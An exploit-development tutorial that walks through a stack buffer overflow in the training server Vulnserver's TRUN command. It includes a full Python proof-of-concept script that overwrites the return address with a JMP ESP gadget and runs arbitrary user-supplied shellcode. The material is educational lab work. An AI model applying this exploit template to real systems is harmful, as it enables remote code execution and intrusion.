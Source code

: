 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 2
published: 2025-10-22
description: RCE exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 RCE Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Rs7UawYGYUg?si=9-AftjVomWWhah4X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Exploit Overview
![x32dbg](./debugger_view.png)

In x32dbg, if you go to **Symbols → essfunc.dll → EssentialFunc4** you’ll see code like the one above.
Here, the instruction `JMP ESP` (located at **0x625011BB**) is critical for control-flow hijacking.
It transfers execution to the address held in the ESP (Extended Stack Pointer) register, which points to the top of the stack.
By overwriting that location we can redirect execution to our mapped shellcode and ultimately run that shellcode.

## PoC
```python
from argparse import ArgumentParser
from socket import *
import struct

def createPayload(shellcode_path: str):
    data = b"A" * 2006
    return_address = struct.pack("<L", 0x625011BB)
    nop_sled = b"\x90" * 50
    shellcode = b""

    with open(shellcode_path, "rb") as fp:
        shellcode = fp.read()
        fp.close()

    payload = b"TRUN \x2E"
    payload += data
    payload += return_address
    payload += nop_sled
    payload += shellcode

    return payload

def exploit(ip: str, port: int, shellcode_path: str):
    print("[~] Generating payload...")
    payload = createPayload(shellcode_path)
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] RCE Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF RCE Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    parser.add_argument(
        "-s", "--shellcode",
        type=str,
        help="Set shellcode file path",
        required=True
    )

    args = parser.parse_args()

    target_ip       = str(args.target)
    target_port     = int(args.port)
    shellcode_path  = str(args.shellcode)

    exploit(target_ip, target_port, shellcode_path)

if __name__ == "__main__":
    main()
```

Since the program is x32, I converted the `JMP ESP` address to an x32 (32-bit) address using `struct` and `"<L"` like this:

```python
struct.pack("<L", 0x625011BB)
```

If we jump to that location, we'll find the shellcode mapped immediately after a 50 bytes of NOP sled.

After that, the shellcode provided by the user is loaded into memory and executed immediately. Below are the execution results:

![result](./result.png)

I used an x86 `calc.exe` execution shellcode generated by **msfvenom** (with bad characters removed), and confirmed that it executed successfully.